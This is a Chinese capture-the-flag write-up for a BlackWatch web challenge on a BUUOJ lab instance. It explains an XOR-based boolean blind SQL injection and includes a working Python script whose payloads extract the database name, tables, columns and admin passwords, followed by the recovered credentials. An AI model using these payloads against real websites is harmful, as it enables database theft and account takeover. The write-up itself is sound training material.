



# BlackWatch入群题-Web

参考博客：https://blog.csdn.net/qq_46263951/article/details/119059485

首先打开网页。



看到有个登录，使用bp抓包发现是以json传入的数据。

然后有三个热点，我们分别抓这三个热点的包。



看到`id=1`猜测这里应该是一个整形sql注入，并且我这里在id=1后面加了双引号还有hack警告。所以sql注入无疑。

看了下大佬博客，要用异或布尔盲注，因为这里是整形注入，并且注入成功后返回的数据是json的格式，所以我们进行json转换后还需要将其转为字符串才能正确找到。

## **异或布尔盲注**

```
异或'^'是一种数学运算，1^1=0 0^0=0 1^0=1，可以用来进行sql注入，当两条件相同时（同真同假）结果为假，当两条件不同时（一真一假）结果为真。
```

这里如果结果为0不会返回任何信息，如果结果为1则会返回

```
{"title":"\u4e0b\u4e00\u4efb\u7fa4\u4e3b\u5148\u8ba4\u6211\u5f53\u7239","content":"\u672d\u5e08\u5085\u7f3a\u4e2a\u5973\u670b\u53cb"}
```

## python异或布尔盲注脚本

```
import requests

flag = ''
# 查库名
payload1 = '1^(ascii(substr((select(database())),{},1))>{})^1'  # 库名为news

# 查表名
payload2 = '1^(ascii(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema=\'news\')),{},1))>{})^1'  # 表名为admin,contents

# 查字段
payload3 = '1^(ascii(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name=\'contents\')),{},1))>{})^1'  # admin表里有id,username,password,is_enable
# contents表里有id,title,content,is_enable

# 查字段值
payload4 = '1^(ascii(substr((select(group_concat(password))from(admin)),{},1))>{})^1'  # 分别查username和password

for i in range(1, 100):
    low = 28
    high = 137
    mid = (low + high) // 2

    while low < high:
        url = 'http://458ae9a1-d527-4bf4-9a12-f9fea65d57fe.node5.buuoj.cn:81/backend/content_detail.php?id='
        payload = payload4.format(i, mid)
        url += payload
        r = requests.get(url)
        text = str(r.json())

        if "札师傅缺个女朋友" in text:
            low = mid + 1
        else:
            high = mid

        mid = (low + high) // 2

    if chr(mid) == '':
        break
    flag += chr(mid)
    print(flag)

print(flag)

# 这个代码使用了id=1时的情况,使用了二分法提高了查询的速度
```

分别查询账号和密码，查出来两组账号和密码

```
username：0fcb8343,afd86deb
password：3170de88,fe68cbd0
```

使用第二组账号和密码登录就能看到flag了。


